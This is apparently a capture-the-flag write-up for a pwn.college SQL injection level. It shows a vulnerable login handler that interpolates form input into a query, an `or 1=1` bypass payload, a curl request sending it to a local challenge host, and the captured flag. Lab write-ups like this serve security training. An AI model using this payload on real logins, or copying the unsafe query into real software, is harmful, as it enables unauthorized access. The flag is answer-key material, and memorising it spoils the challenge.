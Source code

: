 # Level 4

As usual we are given with a task to `Exploit a structured query language injection vulnerability to login`

we got the machine and souce code for the challenge

```python copy {13} /{username}/ /{password}/

def level4():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone()
        assert user, "Invalid `username` or `password`"

        session["user"] = int(user["rowid"])
        return redirect(request.path)

```

we can see that the user input is not sanitized and we can use sql injection to get the flag

```sql
username" or 1=1 -- -"
```

Example request

```bash
curl -X POST http://challenge.localhost:80/ -d 'username=" or 1=1 -- -&password=spear'
```

This will redirect us to the home page containing flag 🚩
```text copy
pwn.college{oMQUW6gEdPev9OrMTrFZcDKmIfZ.dBTOzMDL0IzMyMzW}
```